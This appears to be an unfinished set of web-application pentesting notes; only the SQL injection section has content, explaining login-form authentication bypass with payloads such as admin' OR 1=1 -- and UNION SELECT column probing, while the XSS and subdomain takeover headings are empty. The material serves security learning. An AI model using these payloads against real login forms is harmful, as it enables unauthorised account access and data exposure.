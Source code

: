 # Table of Content
1. [Web App](#webapp)
- [SQL Injection](#sqlinj)
- [XSS](#xss)
- [Subdomain Takeover](#subdomain)
















<a name="webapp"></a>
# Web App 

<a name="sqlinj"></a>
## SQL Injection

### Login Form 
Normally, a POST request would takes two parameters (i.e. username and password) from the login form. Thus, the SQL command at the backend is look something like this:

```
SELECT * from TABLE where USERNAME='USERNAME' AND PASSWORD = 'PASSWORD';
```
The statement above mainly ask the Database to select the user where the username and password are matched with the one we input to the login form. 

Now, if we put below payload into the username field, 

```
admin' OR 1=1 --
```
the whole SQL statement would becomes this:

```
SELECT * from TABLE where USERNAME='admin' OR 1=1 --AND PASSWORD='PASSWORD';
```
So, now the statement above now turns to select the user where username is admin or 1=1. Please pay attention that ```--``` means comment out the rest of the statement. Thus, it doesnt matter whether you have put in anything to the password field. Now, the database would return the whole list of user from their database. And normally, a session with the first user in the database would be created for us. If the statement above can't log you in, you may also try something like below as SQL syntax might slightly varies in different brands of SQL.

```
admin' OR 1=1 #
admin" OR 1=1 #
admin" OR 1=1 --
```
If above can log you in and you want to login as other users, you may use the statement below:

```
 ' UNION SELECT 1 --
```
Thus, the whole SQL statement would becomes:

```
SELECT * from TABLE where USERNAME='' UNION SELECT 1 --AND PASSWORD='PASSWORD';
```



 ' UNION SELECT 1,2 # 
 ' UNION SELECT 1,2,3 # 
```


<a name = "xss"></a>
## XSS

<a name ="subdomain"></a>
## Subdomain Takeover



